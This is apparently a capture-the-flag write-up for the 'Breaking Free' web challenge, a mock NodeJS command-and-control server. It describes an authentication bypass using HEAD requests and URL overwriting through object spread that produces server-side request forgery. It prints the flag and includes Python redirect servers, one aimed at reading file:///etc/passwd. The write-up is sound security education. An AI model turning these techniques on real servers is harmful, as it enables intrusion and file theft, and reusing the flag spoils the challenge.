








# Breaking Free(2986 points)


>Our agents managed to obtain the source code from the C2 server that COViD's bots used to register upon infecting its victim. Can you bypass the checks to retrieve more information from the C2 Server?

[Solution TL;DR](#tldr)


### Initial Enumeration and Evaluation

We are given just 1 file - [dist.js](./dist.js), which seems to be part of a NodeJS web application. As per the description, this seems to be part of a C2 server's source code. 

Examining the file, we see 3 main router functions:

The first part defines a middleware function and applies to all requests we make to /register-covid-bot; be it a POST, GET or any other form of request before passing it on to the relevant routes:

```js
const COVID_SECRET = process.env.COVID_SECRET;
const COVID_BOT_ID_REGEX = /^[a-f0-9]{8}-[a-f0-9]{4}-4[a-f0-9]{3}-[89aAbB][a-f0-9]{3}-[a-f0-9]{12}$/g;

//Validates requests before we allow them to hit our endpoint
router.use("/register-covid-bot", (req, res, next) => {
  var invalidRequest = true;
  if (req.method === "GET") {
    if (req.query.COVID_SECRET && req.query.COVID_SECRET === COVID_SECRET) {
      invalidRequest = false;
    }
  } else {//Handle POST
    let covidBotID = req.headers['x-covid-bot']
    if (covidBotID && covidBotID.match(COVID_BOT_ID_REGEX)) {
      invalidRequest = false;
    }
  }

  if (invalidRequest) {
    res.status(404).send('Not found');
  } else {
    next();
  }
});
```

Here we see that it checks first whether the request made is GET or otherwise. It then checks based on various conditions whether the request is valid, and if not, it errors out and we are unable to proceed.

- If a GET request is made, the app checks whether a COVD_SECRET parameter is provided and if so, validates it against an environment variable of the same name. 
- If any other request method is used, the app validates the value of the `x-covid-bot` header that the user supplies against the given regex. Using a regex testing [website](https://regex101.com/), we can see that it looks for a UUID, but with some additional constraints(3rd segment starts with "4" and 4th part starts with "8","9","a","b","A" or "B")

Not knowing the environment variables' values, it is unlikely that a GET request is our attack vector. However, let us further analyse the file to formulate our plan.

1: app.get

```js
//registers UUID associated with covid bot to database
router.get("/register-covid-bot", (req, res) => {
  let { newID } = req.query;

  if (newID.match(COVID_BOT_ID_REGEX)) {
    //We enroll a maximum of 100 UUID at any time!!
    dbController.addBotID(newID).then(success => {
      res.send({
        "success": success
      });
    });
  }
});
```

- This route obtains a newID from the GET parameters, checks it against the specific UUID regex from before, then registers it in the database.

2: app.post

```js
const COVID_BACKEND = "web_challenge_5_dummy";

router.post("/register-covid-bot", (req, res) => {
  let payload = {
    url: COVID_BACKEND,
    oldBotID: req.headers['x-covid-bot'],
    ...req.body
  };
  if (payload.newBotID && payload.newBotID.match(COVID_BOT_ID_REGEX)) {
    dbController.changeBotID(payload.oldBotID, payload.newBotID).then(success => {
      if (success) {
        fetchResource(payload).then(httpResult => {
          res.send({ "success": success, "covid-bot-data": httpResult.data });
        })


      } else {
        res.send({ "success": success });
      }
    });
  } else {
    res.send({ "success": false });
  }

});

async function fetchResource(payload) {
  //TODO: fix dev routing at backend http://web_challenge_5_dummy/flag/42
  let result = await axios.get(`http://${payload.url}/${payload.newBotID}`).catch(err => { return { data: { "error": true } } });
  return result;
}
```

- This route obtains information from the request body and merges it into the payload object using the [spread operator](https://davidwalsh.name/merge-objects)
- We can then assume that the changeBotID function replaces the oldBotID in the database with the newBotID(provided in request body and validated with UUID regex), then calls fetchResource if it succeeds.
- The fetchResouce function makes a GET request to the COVID_BACKEND URL, with our newBotID as the path.

We see a comment that piques our interest in the fetchResource function: `//TODO: fix dev routing at backend http://web_challenge_5_dummy/flag/42`, implying the flag location: we now have a clear goal!

### Time to plan & execute!(Part 1)

We now know that we need to make a POST request, somehow modifying the URL parameter to point to the flag location and supply bot IDs that pass the checks. To do this however, we need to first register our bot ID, but this supposedly requires knowing the environment variable COVID_SECRET! 

However, upon some searching about request methods that the GET handler in `express.js` also handles [HEAD](https://github.com/expressjs/expressjs.com/issues/748) requests! Upon some Googling, we see that HEAD requests are basically GET requests but without the message body in the return message. This also overcomes the hurdle that checks the COVID_SECRET, as the `req.method` is now `"HEAD"`, not `"GET"`! So the request instead processes the `else` section of the middleware app.use function, which only validates the `x-covid-bot` header which we control.

Our payload for the first part of the challenge is thus to make a HEAD request, providing both the `x-covid-bot` header, alongside the query parameter `newID`:



<div align="center">
  <em>Request made using Postman application</em>
</div>


Note the Content-Length header of the response; it indirectly tells us the response of the server even without the actual message body(not given due to the HEAD request). We can get either `{"success":true}`(16 characters) or  `{"success":false}`(17 characters), so getting a Content-Length header 16 indictates success in registering our bot!

*P.S.: We got a Content-Length of 16 for our first few tries, and found out it was because the bot ID was already registered in the system from other teams' prior attempts! If you get this error, try changing the query slightly.*

### Time to plan and execute(Part 2)

Now that our bot is registered, we need to use the changeBotID functionality through a POST request. We can make a basic POST request, with the our registered ID as the `x-covid-bot` header and a JSON request body containing our new bot ID (we see `app.use(bodyParser.json())` at the top of dist.js):



<div align="center">
  <em>Note: If you get a {"success":false} here, it may be be that the newBotID value is already registered in the system, so change up the payload slightly.</em>
</div>


The `"covid-bot-data"` part shows the result of the fetchResource function we saw earlier! Now all that is left to do is to overwrite the `"url"` value in the payload object.

### The final step

This is where I got stuck. See, the `COVID_BACKEND` variable, set to `web_challenge_5_dummy` did not feel like the actual backend endpoint(SPOILERS: IT WAS) due to the 'dummy' part at the end. This led me down a rabbit hole that I will add at the [end of the report](#taking-the-wrong-pathbut-with-an-unintended-solution) (always good to keep track of the wrong paths too!). For now, we assume that we know that we know that it is in fact the actual value.

Anyway, now all we have to do is overwrite the `payload.url` value with `"web_challenge_5_dummy/flag/42?q="`, with the last part needed so that the `payload.newBotID` part is no longer included in the path, instead bundled up as a query passed to the dev endpoint.

The next step is to notice that the spread operator (`{...obj}`)  can in fact [overwrite variables](https://clhenrick.io/es6-spread-operator-mishap/). Hence, our final step is to overwrite the `payload.url` value using this feature:



<div align="center">
  <em>Note: Here, I also chose to overwrite the oldBotID variable. While it is completely fine to supply it through the headers and omit it here, I did so for convenience.</em>
</div>


And...oops! The endpoint does not expect a GET parameter. Remember that we are supplying the newBotID as the GET parameter by using `?q=` at the end of our URL. We need to find a new way for the ID to not be included in our path. 

Looking at the list of reserved characters for URLs, we come across `#`, which symbolises an [anchor](https://www.quora.com/What-does-a-hashtag-at-the-end-of-a-URL-do). We can try using this to remove the ID from our URL path instead:



Voila! We have the flag: `govtech-csg{ReQu3$t_h34D_0R_G3T?}`

### TL;DR

1. Register bot using `HEAD` request instead of `GET` to overcome app.use requirements, while still using app.get route.
2. Use app.post route to overwrite `payload.url` by exploiting the spread operator. Supply own URL in request body to do so.
3. Disregard the `payload.newBotID` in the requested URL using anchor tags, get the flag 

### Taking the wrong path(but with an unintended solution)

This is the part where I explain what I did not knowing that the actual dev endpoint was `web_challenge_5_dummy`. I began to look into ways I could possibly leak the file that was on the server. I knew this was going to be unlikely, but I decided to give it a try.

I began by enumerating the server used to make the request by overwriting the URL with [RequestBin](https://requestbin.com/):



The user-agent seemed interesting, and so I went around looking for axios exploits. And lo and behold, we find an extremely recent [SSRF vulnerability](https://snyk.io/vuln/SNYK-JS-AXIOS-1038255), affecting all published versions of this package. Off we go, down this rabbit hole.

I set up a simple server on my own machine,

```python
import os
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler
PORT = os.getenv('PORT')

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', 'https://www.google.com')
       self.end_headers()

HTTPServer(("", PORT), Redirect).serve_forever()
```

and forwarded the relevant ports on from my router to my personal machine(is this safe? who knows!). This code sends a redirect code, which then leads to any URI we like.

We first test with a public site, Google and see that it works:



Here comes the hard(impossible?) part: trying to leak the document. I went through countless payloads, firstly trying the file:// URI scheme, but it led to the server not responding:

```python
import os
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler
PORT = os.getenv('PORT')

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', 'file:///etc/passwd')
       self.end_headers()

HTTPServer(("", PORT), Redirect).serve_forever()
```




I tried this for an hour, even trying filesystem:// URIs and researching the other various [URI schemes](https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml) for a possible attack vector but found none.

<div align="center">
  
</div>


I ultimately just gave up until I decided to try the actual backend URL as a last resort :') 


However, after completing the challenge the intended way, I wanted to check if the SSRF attack could be used to also solve the challenge, by redirecting to `http://web_challenge_5_dummy/flag/42` from my server. I present the unintended(albeit harder to discover) solution:

```python
import os
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler
PORT = os.getenv('PORT')

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(301)
       self.send_header('Location', 'http://web_challenge_5_dummy/flag/42')
       self.end_headers()

HTTPServer(("", PORT), Redirect).serve_forever()
```


